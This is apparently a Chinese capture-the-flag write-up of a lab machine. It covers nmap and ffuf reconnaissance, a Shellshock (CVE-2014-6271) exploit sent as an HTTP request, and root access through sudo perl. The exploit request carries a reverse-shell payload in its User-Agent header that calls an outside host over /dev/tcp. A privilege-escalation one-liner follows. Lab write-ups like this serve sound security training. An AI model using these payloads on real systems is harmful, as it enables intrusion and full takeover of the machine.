

### nmap扫描

```bash
sudo nmap -T4 -Pn 10.10.10.56
```


扫描发现开放80，2222


### 扫描路径

```bash
ffuf -u "http://10.10.10.56/FUZZ" -w /usr/share/dirb/wordlists/common.txt -t 50

#FUZZ是关键字

-u url
-t 线程数
-w 字典路径

#github
https://github.com/ffuf/ffuf
```

扫描到 `cgi-bin` 目录


换个字典，对cgi-bin继续fuzz


什么也没扫到，后面看答案发现这个路径下有个 user.sh，我的路径字典没有。

查看`user.sh`



根据经验，发现这里存在 Bash Shellshock注入漏洞

```bash
漏洞英文名称  Bash Shellshock
中文命名    破壳（X-CERT）
威胁响应等级  A级
漏洞相关CVE编号   CVE-2014-6271
漏洞发现者   Stéphane Chazelas（法国）
漏洞发现事件  2014年9月中旬
漏洞公布时间  9月25日
漏洞影响对象  bash 1.14至bash 4.3的Linux/Unix系统 
```

漏洞详情

[https://wooyun.js.org/drops/Shellshock漏洞回顾与分析测试.html](https://wooyun.js.org/drops/Shellshock漏洞回顾与分析测试.html "https://wooyun.js.org/drops/Shellshock漏洞回顾与分析测试.html")

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271")

### 漏洞利用：

反弹shell

```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent:  () { :;};/bin/bash -i >& /dev/tcp/10.10.14.22/23333 0>&1


```


先拿一个flag

```bash
find / -name 'user.txt' 2>/dev/null

#过滤错误信
2>/dev/null
```


### 提权：

使用 sudo -l 查看得知有权限使用 sudo 运行 /usr/bin/perl

```bash
sudo -l
```


执行

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

拿到root权限，


```bash
find / -name 'root.txt' 2>/dev/null
```
